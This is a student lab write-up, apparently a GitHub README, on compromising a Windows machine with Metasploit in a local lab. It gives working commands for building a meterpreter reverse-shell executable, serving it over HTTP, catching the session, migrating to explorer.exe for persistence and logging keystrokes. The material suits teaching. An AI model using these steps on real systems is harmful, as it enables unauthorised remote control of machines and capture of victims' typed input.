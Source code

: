 # EX 8: COMPROMISING WINDOWS USING METASPLOIT
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

```
Register Number:212222040121
Name:Praveen V
```

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 110001](https://github.com/user-attachments/assets/8cde1e5a-5319-4f72-81c4-9f09f8204798)




Create a malicious executable file praveen.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > praveen.exe
## OUTPUT
![Screenshot 2025-04-07 111202](https://github.com/user-attachments/assets/a5850360-7890-4b7d-b3bf-f84f7eec2f96)





copy the praveen.exe into the apache /var/www/html folder
![Screenshot 2025-04-07 115010](https://github.com/user-attachments/assets/f556dedd-f7d9-47bc-b786-0d2017262af3)



Start apache server
sudo systemctl apache2 start

![Screenshot 2025-04-07 115019](https://github.com/user-attachments/assets/f8a3a5db-f3a1-4089-865b-bf898995674f)



Check the status of apache2
![Screenshot 2025-04-07 115108](https://github.com/user-attachments/assets/e5f1d4d7-126a-4b09-b6ef-eb06a680981f)




Invoke msfconsole:
## OUTPUT:


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-07 115214](https://github.com/user-attachments/assets/ea384ca5-6c96-405e-9b45-b23f4e9fab41)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/praveen.exe
The file "praveen.exe" downloads. 
![Screenshot 2025-04-07 115416](https://github.com/user-attachments/assets/c77d859f-ec36-4ce5-a9d5-e54633f390c7)



Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the praveen.exe process running with pid 1156

The Metasploit shell is running inside the "praveen.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Screenshot 2025-04-07 115242](https://github.com/user-attachments/assets/13ef9689-8a76-4d7c-bb44-0e4ee9807099)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![{F7D2ED4C-13F1-4F4C-B951-BEB85E88527E}](https://github.com/user-attachments/assets/337f3a58-b9d7-413a-9619-eaa764b32dd9)



keyscan_dump	Shows the keystrokes captured so far

![{970C702A-B8E4-4F86-8022-F68564FCAD87}](https://github.com/user-attachments/assets/42a6d320-d01e-4694-addb-c39220915f08)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
